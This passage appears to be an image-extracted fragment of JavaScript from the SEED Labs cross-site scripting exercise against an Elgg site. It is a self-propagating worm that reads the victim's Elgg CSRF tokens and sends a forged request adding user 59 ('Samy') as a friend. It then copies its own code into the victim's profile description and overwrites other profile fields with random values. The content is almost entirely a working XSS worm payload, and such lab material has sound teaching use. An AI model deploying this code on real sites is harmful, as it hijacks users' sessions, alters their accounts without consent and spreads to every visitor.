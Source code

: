 ```html
			var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
			var token="&__elgg_token="+elgg.security.token.__elgg_token;
			//Construct the HTTP request to add Samy as a friend.

			var sendurl= 'http://www.seed-server.com/action/friends/add?friend=59' + ts +  token + ts + token

			console.log(sendurl)

			//Create and send Ajax request to add friend
			Ajax=new XMLHttpRequest();
			Ajax.open("GET",sendurl,true);
			Ajax.setRequestHeader("Host","www.seed-server.com");
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send();



            var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
            var jsCode = document.getElementById("worm").innerHTML;
            var tailTag = "</" + "script>";
            var wormCode = headerTag + jsCode + tailTag;

    
            let formData = new FormData();
            ts=elgg.security.token.__elgg_ts;
            token=elgg.security.token.__elgg_token;
            let username = elgg.session.user.name;
            let guid = elgg.session.user.guid;
            
            
            formData.append('__elgg_token', token);
            formData.append('__elgg_ts', ts);
            formData.append('name', username);
            formData.append('guid', guid);
        
            let fields = ['description', 'briefdescription', 'location', 'interests', 'skills', 'contactemail', 'phone', 'mobile', 'website', 'twitter'];
        
            for (let i = 0; i < fields.length; i++) {
                formData.append(fields[i], generateRandomString(10));
                formData.append(`accesslevel[${fields[i]}]`, 1);
            }
        
            formData.set('description', wormCode);
            formData.set('contactemail', generateRandomString(10) + '@gmail.com');
        
        
            var sendurl ="http://www.seed-server.com/action/profile/edit" 
        
        
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.send(formData);
        }
	}
</script>
```


